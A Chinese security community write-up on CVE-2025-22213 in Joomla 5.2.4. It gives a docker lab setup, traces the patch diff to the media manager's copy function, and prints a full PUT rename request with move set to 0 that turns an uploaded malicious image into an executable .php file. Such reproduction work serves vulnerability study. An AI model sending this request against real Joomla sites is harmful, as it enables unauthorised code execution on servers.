# CVE-2025-22213-先知社区

> **来源**: https://xz.aliyun.com/news/17399  
> **文章ID**: 17399

---

## 0x01前言

在某次参加线下一个测试的时候遇到了joomla-cms 5.2.4这个框架，然后大概搜索了这个框架这个版本存在CVE-2025-22213漏洞。但是网上没有现成的poc，所以需要我们自己去挖掘一下。

Description:

媒体管理器中的检查不充分允许具有“编辑”权限的用户将文件扩展名更改为任意扩展名，包括 .php 和其他可能可执行的扩展名。

Affected Installs:

Joomla! CMS versions 4.0.0-4.4.11, 5.0.0-5.2.4

## 0x02环境搭建

docker一键启动

```
  services:
    db:
      image: mysql:8.0
      container_name: joomla_mysql
      restart: always
      environment:
        MYSQL_ROOT_PASSWORD: your_root_password
        MYSQL_DATABASE: joomladb
        MYSQL_USER: joomlauser
        MYSQL_PASSWORD: joomlapass
      volumes:
        - dbdata:/var/lib/mysql
      networks:
        - joomla-net

    joomla:
      image: joomla:5.2.4
      container_name: joomla524
      restart: always
      ports:
        - "8081:80"
      environment:
        JOOMLA_DB_HOST: db
        JOOMLA_DB_USER: joomlauser
        JOOMLA_DB_PASSWORD: joomlapass
        JOOMLA_DB_NAME: joomladb
      depends_on:
        - db
      volumes:
        - joomladata:/var/www/html
      networks:
        - joomla-net

  volumes:
    dbdata:
    joomladata:

  networks:
    joomla-net:

```

## 0x03漏洞分析

我们首先去github上diff一下代码在5.2.5的更新中，就只更新了几个地方，很快就发现了改动的代码点。在这里它加入了一个FileExtension的判断。大致应该就是这里了。

我们找到copyfile函数，发现在copy函数中调用了它

然后find usage发现在ApiModel里面有调用copy这个函数

大概就是这个地方触发的更改文件名字。这个如何触发呢？

我们需要账号进入后台

然后upload我们的恶意内容，注意要满足一定的图片格式才行（我们这里上传的test.png是我们的恶意内容

然后我们点击test.png图片，点击Rename，得到一个这样的流量包如果我们直接把.png改为php发现不行。

因为在这看报错可以知道其实这里调用了move函数而不是我们的copy函数

如果我们没有传move的值，这里默认为true进入move分支。所以我们添加一个move参数为0虽然还是报错说我们false，但是我们可以在后台发现其实已经存在test.php文件了

```
PUT /administrator/index.php?option=com_media&format=json&mediatypes=0,1,2,3&task=api.files&path=local-images%3A%2Ftest.png HTTP/1.1
Host: 192.168.111.135:8081
X-Ajax-Engine: Joomla!
Referer: http://192.168.111.135:8081/administrator/index.php?option=com_media&view=media&tmpl=component&e_name=jform_articletext&asset=0&mediatypes=0,1,2,3&author=0&path=local-images:/
Content-Type: application/json
Accept: */*
Cookie: osColorScheme=light; atumSidebarState=open; d0e3357a3fe2b26787079bb62d2fdc4c=7037237db87837466034408088f52783; 29d3998eed01b4cdae9312d68a65e676=a3b0edf57fe18cc8bc238936f1ec89c4; 767ce65a554912198c74cc7c5bdecd38=8dfc0260ea79fa60a53e238fbb4725fc
Priority: u=0
X-CSRF-Token: 2cddfebd92cc0e0a53aa4e3e65d19221
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.111.135:8081
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 75

{"2cddfebd92cc0e0a53aa4e3e65d19221":"1","move":"0","newPath":"local-images:/test.php"}
```

访问/images/test.php



## 0x04总结

这个漏洞只要diff一些github代码就很简单

参考:

<https://nvd.nist.gov/vuln/detail/CVE-2025-22213>
